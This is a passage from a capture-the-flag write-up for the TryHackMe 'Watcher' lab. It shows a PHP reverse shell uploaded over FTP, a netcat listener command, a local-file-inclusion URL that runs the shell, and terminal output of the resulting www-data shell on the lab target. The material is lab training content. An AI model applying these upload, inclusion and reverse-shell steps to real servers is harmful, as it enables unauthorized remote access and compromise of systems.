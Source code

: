 ```terminal
local: rev.php remote: rev.php                                                                                                                     
229 Entering Extended Passive Mode (|||41911|)                                                                                                               
150 Ok to send data.                                                                                                                                         
100% |****************************************************************************************************************|  3651       23.84 MiB/s    00:00 ETA
226 Transfer complete.                                                                                                                                       
3651 bytes sent in 00:00 (15.91 KiB/s)                                                                                                                       
ftp> ls                                                                                                                                                      
229 Entering Extended Passive Mode (|||46255|)                                                                                                               
150 Here comes the directory listing.                                                                                                                        
-rw-r--r--    1 1001     1001         3651 Jan 13 10:57 rev.php                                                                                         
226 Directory send OK.                                                                                                                                       
ftp>
```

I couldn't upload it first in the root directory but i managed to upload it into **files** directory.
>Note : you should change the ip in the reverse shell before uploading it.

Now, we should set up a listener in our machine before navigating to the shell.
`nc -lnvp 1234`

According to the secret file we found in robots.txt:
![creds](/assets/img/tryhackme/watcher/creds.png)
The path to our reverse shell is `/home/ftpuser/ftp/files/`. So in order to execute the script, we need to navigate to `http://{target_IP}/post.php?post=/home/ftpuser/ftp/files/rev.php`
>Note : 'rev.php' is what i named my reverse shell file, yours might be different!!!

# **Foothold**
 After setting up everything and navigating to our shell, we should get a reverse shell:

 ```terminal
 $ nc -lnvp 1234                                                                                                                                   [142/144]
listening on [any] 1234 ...                                                                                                                                  
connect to [10.11.31.131] from (UNKNOWN) [10.10.18.205] 36444                                                                                                
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux                                                  
 10:58:02 up 19 min,  0 users,  load average: 0.00, 0.02, 0.11                                                                                               
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                                          
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                                        
 ```